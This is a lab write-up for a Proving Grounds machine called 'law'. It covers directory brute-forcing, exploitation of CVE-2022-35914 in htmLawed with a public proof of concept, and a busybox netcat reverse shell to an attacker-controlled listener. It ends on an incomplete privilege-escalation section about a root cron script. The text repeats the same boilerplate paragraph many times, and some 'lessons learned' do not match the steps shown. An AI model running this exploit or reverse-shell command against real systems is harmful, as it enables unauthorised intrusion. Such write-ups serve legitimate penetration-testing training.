

## Overview

| Field                     | Value |
|---------------------------|-------|
| OS                        | Linux |
| Difficulty                | Not specified |
| Attack Surface            | Web application and exposed network services |
| Primary Entry Vector      | Web RCE (CVE-2022-35914) |
| Privilege Escalation Path | Local enumeration -> misconfiguration abuse -> root |

## Credentials

No credentials obtained.

## Reconnaissance

---
💡 Why this works  
This stage maps the reachable attack surface and identifies where exploitation is most likely to succeed. Accurate service and content discovery reduces blind testing and drives targeted follow-up actions.

## Initial Foothold

---
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

```bash
feroxbuster -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -t 50 -r --timeout 3 --no-state -s 200,301,302,401,403 -x php,html,txt --dont-scan '/(css|fonts?|images?|img)/' -u http://$ip
```

```bash
❌[0:59][CPU:21][MEM:66][TUN0:192.168.45.166][/home/n0z0]
🐉 > feroxbuster -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -t 50 -r --timeout 3 --no-state -s 200,301,302,401,403 -x php,html,txt --dont-scan '/(css|fonts?|images?|img)/' -u http://$ip


 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.12.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.178.190
 🚫  Don't Scan Regex      │ /(css|fonts?|images?|img)/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
 👌  Status Codes          │ [200, 301, 302, 401, 403]
 💥  Timeout (secs)        │ 3
 🦡  User-Agent            │ feroxbuster/2.12.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php, html, txt]
 🏁  HTTP methods          │ [GET]
 📍  Follow Redirects      │ true
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET        9l       28w      280c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      455l     1955w    22390c http://192.168.178.190/htmLawed_TESTCASE.txt
200      GET     1817l    17952w   127367c http://192.168.178.190/htmLawed_README.txt
200      GET      478l     4158w   217899c http://192.168.178.190/htmLawed_README.htm
200      GET      388l     2376w    42134c http://192.168.178.190/
200      GET      388l     2376w    42134c http://192.168.178.190/index.php

```


*Caption: Screenshot captured during this stage of the assessment.*

https://github.com/cosad3s/CVE-2022-35914-poc
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

```bash
python3 CVE-2022-35914.py -u http://192.168.178.190/index.php -c id
```

```bash
✅[1:08][CPU:26][MEM:66][TUN0:192.168.45.166][...nd/law/CVE-2022-35914-poc]
🐉 > python3 CVE-2022-35914.py -u http://192.168.178.190/index.php -c id
/home/n0z0/work/04.OSCP/Proving_Ground/law/CVE-2022-35914-poc/CVE-2022-35914.py:19: SyntaxWarning: invalid escape sequence '\ '
  / ___\ \   / / ____|   |___ \ / _ \___ \|___ \    |___ / ___|/ _ \/ | || |
/home/n0z0/work/04.OSCP/Proving_Ground/law/CVE-2022-35914-poc/CVE-2022-35914.py:64: SyntaxWarning: invalid escape sequence '\$'
  return_code_search_regex = "\$spec\: (.*)"
/home/n0z0/work/04.OSCP/Proving_Ground/law/CVE-2022-35914-poc/CVE-2022-35914.py:67: SyntaxWarning: invalid escape sequence '\['
  output_search_regex = "\[xml:lang\] \=\> 0\n(.*)\n\)"
/home/n0z0/work/04.OSCP/Proving_Ground/law/CVE-2022-35914-poc/CVE-2022-35914.py:72: SyntaxWarning: invalid escape sequence '\='
  cleaning_regex = ".*\=\>"

  ______     _______     ____   ___ ____  ____      _________  ___  _ _  _
 / ___\ \   / / ____|   |___ \ / _ \___ \|___ \    |___ / ___|/ _ \/ | || |
| |    \ \ / /|  _| _____ __) | | | |__) | __) |____ |_ \___ \ (_) | | || |_
| |___  \ V / | |__|_____/ __/| |_| / __/ / __/_____|__) |__) \__, | |__   _|
 \____|  \_/  |_____|   |_____|\___/_____|_____|   |____/____/  /_/|_|  |_|

[+] Command output (Return code: 0):
 uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

```bash
python3 CVE-2022-35914.py -u http://192.168.178.190/index.php -c 'busybox nc 192.168.45.166 4444 -e /bin/bash'
```

```bash

✅[1:11][CPU:17][MEM:63][TUN0:192.168.45.166][...nd/law/CVE-2022-35914-poc]
🐉 > python3 CVE-2022-35914.py -u http://192.168.178.190/index.php -c 'busybox nc 192.168.45.166 4444 -e /bin/bash'
/home/n0z0/work/04.OSCP/Proving_Ground/law/CVE-2022-35914-poc/CVE-2022-35914.py:19: SyntaxWarning: invalid escape sequence '\ '
  / ___\ \   / / ____|   |___ \ / _ \___ \|___ \    |___ / ___|/ _ \/ | || |
/home/n0z0/work/04.OSCP/Proving_Ground/law/CVE-2022-35914-poc/CVE-2022-35914.py:64: SyntaxWarning: invalid escape sequence '\$'
  return_code_search_regex = "\$spec\: (.*)"
/home/n0z0/work/04.OSCP/Proving_Ground/law/CVE-2022-35914-poc/CVE-2022-35914.py:67: SyntaxWarning: invalid escape sequence '\['
  output_search_regex = "\[xml:lang\] \=\> 0\n(.*)\n\)"
/home/n0z0/work/04.OSCP/Proving_Ground/law/CVE-2022-35914-poc/CVE-2022-35914.py:72: SyntaxWarning: invalid escape sequence '\='
  cleaning_regex = ".*\=\>"

  ______     _______     ____   ___ ____  ____      _________  ___  _ _  _
 / ___\ \   / / ____|   |___ \ / _ \___ \|___ \    |___ / ___|/ _ \/ | || |
| |    \ \ / /|  _| _____ __) | | | |__) | __) |____ |_ \___ \ (_) | | || |_
| |___  \ V / | |__|_____/ __/| |_| / __/ / __/_____|__) |__) \__, | |__   _|
 \____|  \_/  |_____|   |_____|\___/_____|_____|   |____/____/  /_/|_|  |_|

```

At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

```bash
nc -lvnp 4444
```

```bash
✅[0:59][CPU:29][MEM:66][TUN0:192.168.45.166][/home/n0z0]
🐉 > nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.166] from (UNKNOWN) [192.168.178.190] 53020


```

Retrieved local.txt:
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

```bash
find / -iname local.txt 2>/dev/null
cat /var/www/local.txt
```

```bash
www-data@law:/var/www/html$ find / -iname local.txt 2>/dev/null
/var/www/local.txt
cawww-data@law:/var/www/html$ cat /var/www/local.txt
fce3f2eacfb1b1d711084e361945b2d7

```

💡 Why this works  
The initial access step chains discovered weaknesses into executable control over the target. Successful foothold techniques are validated by command execution or interactive shell callbacks.

## Privilege Escalation

---
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

```bash
╔══════════╣ Web files?(output limit)
/var/www/:
total 20K
drwxr-xr-x  3 root     root     4.0K Aug 25  2023 .
drwxr-xr-x 12 root     root     4.0K Aug 24  2023 ..
-rwxr-xr-x  1 www-data www-data   82 Aug 25  2023 cleanup.sh
drwxr-xr-x  2 www-data www-data 4.0K Aug 25  2023 html
-rw-r--r--  1 www-data www-data   33 Feb 16 10:59 local.txt

```

At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

```bash
2026/02/16 11:20:01 CMD: UID=0     PID=15655  | /usr/sbin/CRON -f
2026/02/16 11:20:01 CMD: UID=0     PID=15657  | /usr/sbin/CRON -f
2026/02/16 11:20:01 CMD: UID=0     PID=15658  | /bin/sh -c /var/www/cleanup.sh

```

At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

```bash
cat cleanup.sh
```

```bash
www-data@law:/var/www$ cat cleanup.sh

```

💡 Why this works  
Privilege escalation relies on local misconfigurations, unsafe permissions, and trusted execution paths. Enumerating and abusing these trust boundaries is the fastest route to root-level access.

## Lessons Learned / Key Takeaways

- Validate framework debug mode and error exposure in production-like environments.
- Restrict file permissions on scripts and binaries executed by privileged users or schedulers.
- Harden sudo policies to avoid wildcard command expansion and scriptable privileged tools.
- Treat exposed credentials and environment files as critical secrets.

### Attack Flow

---
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.



## References

- CVE-2022-35914: https://nvd.nist.gov/vuln/detail/CVE-2022-35914
- RustScan: https://github.com/RustScan/RustScan
- Nmap: https://nmap.org/
- feroxbuster: https://github.com/epi052/feroxbuster
- Nuclei: https://github.com/projectdiscovery/nuclei
- GTFOBins: https://gtfobins.org/
- HackTricks Privilege Escalation: https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html
